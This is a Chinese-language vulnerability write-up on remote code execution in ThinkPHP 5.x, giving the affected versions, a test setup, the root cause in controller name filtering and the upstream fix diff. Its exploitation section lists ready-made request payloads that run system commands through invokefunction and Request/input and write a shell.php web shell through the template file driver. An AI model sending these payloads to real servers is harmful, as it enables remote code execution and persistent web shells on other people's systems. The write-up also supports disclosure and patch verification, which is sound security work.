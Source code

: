 # ThinkPHP_5.X_全版本任意代码执行


## Affected Version

- ThinkPHP_5.X

## 0x00 源码地址

https://github.com/top-think/framework

## 0x01 搭建环境

phpstudy 2018

windows 10 x64

## 0x02 漏洞原理

控制器过滤不严，结合直接返回类名的代码操作，导致可以用命名空间的方式来调用任意类的任意方法。

**修复代码：**

https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815#diff-b14f70992e6922289d5fea7a43e4f8d3

```
        // 获取控制器名
        $controller = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));
   -      if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
   +      if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
            throw new HttpException(404, 'controller not exists:' . $controller);
        }

```
## 0x03 漏洞利用

5.1.x php版本>5.5

```
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert

http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

s=index/\think\Request/input&filter=phpinfo&data=1

s=index/\think\Request/input&filter=system&data=id

s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E

s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

5.0.x php版本>=5.4

```
http://localhost/thinkphp_5.0.22_with_extend/public///index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

## 0x04批量检测

![run_Thinkphp_check](https://raw.githubusercontent.com/SecWiki/CMS-Hunter/master/ThinkPHP/ThinkPHP_5.X_%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/run_Thinkphp_check.png)

## 0x05 参考

[[漏洞分析]thinkphp 5.x全版本任意代码执行分析全记录](https://xz.aliyun.com/t/3570)

[【漏洞预警】ThinkPHP5远程代码执行漏洞](https://nosec.org/home/detail/2050.html)
